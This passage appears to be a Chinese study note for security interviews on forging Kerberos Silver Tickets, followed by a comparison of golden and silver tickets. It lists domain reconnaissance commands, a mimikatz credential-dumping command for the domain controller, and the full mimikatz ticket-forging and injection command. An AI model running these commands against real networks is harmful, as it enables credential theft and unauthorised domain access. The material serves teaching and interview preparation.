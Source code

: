 ##### 条件要求：
- 域名
```
whoami
net time /domain
ipconfig /all
```
- 域的SID 值
```
whoami /all
```
- 目标服务器FQDN
```
net time /domain  
就是hostname+域名 /target:\\WIN-75NA0949GFB.NOONE.com
```
- 可利用的服务
```
 /service:CIFS  
```
- 服务账号的NTML HASH
```
 /rc4:08d93ddf15a6309a46daaa7ec8565296
#生成了mimikatz.log文件(域控主机执行)
服务账号就是域控名$
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit >> 2.txt
```
- 需要伪造的用户名
```
 /user:Administrator
```
- 清除其它票据
```
klist purge
```
- 使用mimikatz伪造票据注入内存
```
kerberos::golden /domain:域名 /sid:填sid /target:完整的域控名 /service:cifs /rc4:服务账号NTMLHASH /user:用户名 /ptt
```

#### 两者区别
##### 获取的权限不同
  金票：伪造的由域控生成的针对所有机器的所有服务的TGT，可以获取任意Kerberos的访问权限
  银票：伪造的普通域用户的身份生成的ST，只能访问指定的服务，如CIFS

##### 认证流程不同
  金票：同KDC交互，但不同AS交互
  银票：不同KDC交互，直接访问Server

##### 加密方式不同
  金票：由krbtgt NTLM Hash 加密
  银票：由服务账号 NTLM Hash 加密

##### 产生日志与否
  Golden Ticket会在域控中留下日志
  Silver Ticket 仅在目标系统留下日志
**（因为Silver Ticket 不与KDC产生交互）**

## 后记
  这篇文章算是今年第一期面试题吧，后面会持续更新的。
  希望今年能够从这一些面试题中提升更多！
  <a href="https://smms.app/image/6pRVq7fA28WLy1C" target="_blank"><img src="https://s2.loli.net/2024/03/20/6pRVq7fA28WLy1C.jpg" width="300px"></a>